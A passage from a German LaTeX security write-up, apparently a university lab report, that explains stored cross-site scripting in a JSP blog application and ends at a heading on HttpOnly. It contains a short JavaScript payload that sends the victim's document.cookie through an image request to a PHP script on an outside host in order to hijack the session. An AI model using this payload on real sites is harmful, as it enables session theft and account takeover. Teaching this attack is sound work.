 Da bei der Ausgabe der Blog-Einträge die Inhalte überhaupt nicht mehr gefiltert werden, wird also das eingegebene Script-Tag als Blog-Eintrag wieder ausgegeben (z. B. in archive.jsp). Im Browser wird das Script-Tag dann so behandelt, als würde es aus vertrauenswürdiger Quelle kommen: Das Script von der angegebenen URL wird heruntergeladenen und ausgeführt. Im konkreten Fall wird dadurch an der Stelle, an der sich das Script-Tag befand der Text "This is the evil script" ausgegeben. (Der Vollständigkeit halber soll darauf hinwiesen werden, dass der Angriff auch funktionieren würde, wenn der Angreifer das Script-Tag als Autoren-Namen und nicht als Blog-Text eingegeben hätte, da diese beiden Werte auf exakt dieselbe Art behandelt werden. Dasselbe gilt für die Suchbegriffe in der Suchfunktion.)

Im vorliegenden Fall handelt es sich natürlich nur um einen harmlosen "Spass" - schließlich hätte der Angreifer ja auch gleich "This is the evil script" als Blog-Text eintragen können. Im folgenden Abschnitt widmen wir uns einem tatsächlich potentiell gefährlichen Angriff.

\subsubsection{Tatsächlicher Angriff: Session Hijacking}

Nehmen wir, der Angreifer erweitert sein Script, und fügt dabei zwei Befehle hinzu, die den Inhalt des Cookies an ein Skript auf dem Webserver des Angreifers schicken (zu Demonstrationszwecken gibt das Skript den Inhalt des Cookies auch noch als Teil der Website aus):

\begin{lstlisting}
document.write('This is the evil script!');

document.write('Cookie contents: ' + escape(document.cookie));
document.write('<img src=\'http://web.student.tuwien.ac.at/~e9902433/steal_the_sessionID.php?s='+escape(document.cookie)+'\' />');
\end{lstlisting}

Das Skript \url{steal_the_sessionID.php} kann dann die SessionID aus dem Cookie extrahieren und der Angreifer hätte dann über die SessionID Zugriff auf die Session des Opfers. Die Website könnte dann nicht mehr zwischen dem Opfer und dem Angreifer unterscheiden und der Angreifer hätte Zugriff auf eventuell gespeicherte private Daten des Opfers, etc.

\subsubsection{HttpOnly?}

